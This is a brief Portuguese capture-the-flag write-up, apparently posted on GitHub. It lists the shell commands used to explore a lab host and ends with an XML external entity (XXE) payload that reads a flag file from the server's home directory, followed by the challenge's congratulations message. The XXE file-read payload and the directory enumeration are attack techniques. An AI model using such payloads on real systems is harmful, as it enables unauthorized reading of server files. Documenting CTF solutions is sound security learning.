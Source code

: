 ```bash
cd ..
cd cache/
ls
cd ..
ls
cd home/
ls
cd criticalsec/
ls
cd ..
cd /var/www/
ls
cd html/
ls
ps aux
</darkcodexxe>
```
> Avistei a flag a flag

```bash
view-source:http://localhost/?ls=/home/criticalsec/03e76a01ef5fd73eb36e4326926df7cb_flag.txt


<!DOCTYPE darkcodexxe [
<!ELEMENT darkcodexxe ANY>
<!ENTITY xxe SYSTEM "file:////home/criticalsec/03e76a01ef5fd73eb36e4326926df7cb_flag.txt">
]>
<darkcodexxe>
Parabéns!

Entre em contato conosco pelo email talentos.criticalsec@gmail.com com a tag [ACME] no assunto,
explicando como chegou no resultado.


(Criado por j3r3mias)
</darkcodexxe>
```
> Fim da ctf

